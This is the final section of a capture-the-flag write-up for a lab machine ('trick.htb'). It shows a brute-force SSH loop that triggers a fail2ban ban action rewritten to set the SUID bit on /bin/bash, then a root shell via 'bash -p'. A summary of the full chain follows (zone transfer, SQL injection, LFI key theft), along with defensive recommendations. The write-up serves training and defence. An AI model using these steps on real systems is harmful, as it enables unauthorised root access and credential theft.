

```bash
sudo /etc/init.d/fail2ban restart
ls -la /bin/bash
```


From the attacker machine, generate several failed SSH logins as `michael` so fail2ban executes the ban action (example using `sshpass`; use your own lab-safe method if preferred):

```bash
seq 1 10 | xargs -P 50 -I{} sshpass -p 'wrongpassword' ssh \
  -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
  michael@10.129.227.180
```



After enough failures, `/bin/bash` should carry the **setuid** bit:


---
### 4.2 Root Shell via SUID bash

Spawn a shell that retains effective root via the SUID bit, then read the root flag.

```bash
/bin/bash -p
whoami
cat /root/root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Port scan → SSH, SMTP, DNS, HTTP; default HTTP is a stub.
2. DNS PTR + **AXFR** → `preprod-payroll.trick.htb`; payroll app → **SQLi login bypass** and **`php://filter`** reads → MySQL creds in `db_connect.php`.
3. **wfuzz** on **`Host`** → `preprod-marketing.trick.htb`.
4. **LFI** with **`....//`** → read **`michael`’s `id_rsa`** → SSH as `michael`.
5. **`sudo /etc/init.d/fail2ban restart`** + writable **`iptables-multiport.conf`** → ban triggers **`chmod u+s /bin/bash`** → **`/bin/bash -p`** → root.

---
## Defensive Recommendations

- Disable **zone transfers (AXFR)** to untrusted clients; reduce exposure of internal hostnames in DNS zones.
- Fix **SQL injection** in authentication; use parameterized queries and least-privilege database accounts (review privileges such as `FILE` if they are not required).
- Avoid unsafe **`include`** on user-controlled paths; use strict allowlists instead of substring filters for `../`.
- Harden **fail2ban** configuration: root-owned files, change control, and avoid **`NOPASSWD sudo`** to restart security-critical services unless tightly justified.
- Do not store **SSH private keys** on servers without strong access controls and rotation.
